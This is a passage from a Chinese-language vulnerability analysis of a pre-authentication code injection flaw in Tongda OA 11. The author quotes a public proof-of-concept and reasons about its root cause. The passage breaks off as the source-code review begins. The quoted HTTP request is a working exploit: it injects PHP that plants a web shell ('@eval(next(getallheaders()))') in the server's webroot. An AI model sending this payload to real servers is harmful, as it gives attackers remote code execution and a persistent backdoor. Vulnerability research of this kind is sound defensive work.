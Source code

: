 ### 2\. 前台代码注入漏洞

#### 前言

在一次众测中，遇到了一个通达 OA11，虽然到最后也没有成功拿下权限，但是网上查找到的一个通达 OA 的前台 RCE 的 poc，让我产生了兴趣，并进行了深入的分析。poc 的来源是[https://cloud.tencent.com/developer/article/2200049](https://cloud.tencent.com/developer/article/2200049) 。

#### 对 poc 的简要分析与猜测

网上给出的 POC 如下：

```php
GET /general/appbuilder/web/portal/gateway/getdata?activeTab=%e5',1%3d>fwrite(fopen("D:\MYOA\webroot\general\test1.php","w"),"<?php @eval(next(getallheaders()));"))%3b/*&id=19&module=Carouselimage HTTP/1.1
Host: 192.168.121.147:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=7n7nl11mo8hrkp03hvtj8sjti0; KEY_RANDOMDATA=5711
Upgrade-Insecure-Requests: 1
```

然后文章给出的返回包是这样的

![00.png](assets/1700187068-03e6a580a91de4f450cf700bfbb7f858.png)  
注意 activeTab 那一栏的对应的像乱码一样的中文，再结合 poc 中这个很像是宽字节注入中出现的%e5，会很让人联想到是不是这一栏带入了 sql 进行了数据查询，从而导致了 sql 注入最终由于视图渲染等原因导致了任意代码执行。但是仔细思考后也觉得不对，因为即使是宽字节的注入，这边虽然进行了逃逸，但是也未对后续内容进行闭合和也没有对数据添加单引号表示为字符串。而且在本地进行测试的时候，也发现了这一步就是在控制器中达成的代码执行和视图关系不大。

#### 源码分析

由于这个 poc 实在没法一眼看出来漏洞的出处，下面对源码进行分析。首先先看一下目录结构
